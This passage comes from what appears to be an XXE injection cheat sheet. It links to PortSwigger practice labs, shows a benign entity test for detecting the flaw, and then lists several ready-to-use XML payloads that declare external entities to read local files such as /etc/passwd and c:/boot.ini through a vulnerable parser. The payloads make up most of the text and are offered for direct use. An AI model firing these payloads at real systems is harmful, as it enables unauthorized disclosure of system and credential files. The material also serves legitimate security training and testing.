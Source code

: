   * [Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)
  * [Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
  * [Exploiting XXE to retrieve data by repurposing a local DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)


## Detect the vulnerability

Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName`. Entities are defined inside the `DOCTYPE` element.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.

## Exploiting XXE to retrieve files

### Classic XXE

We try to display the content of the file `/etc/passwd` 

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```
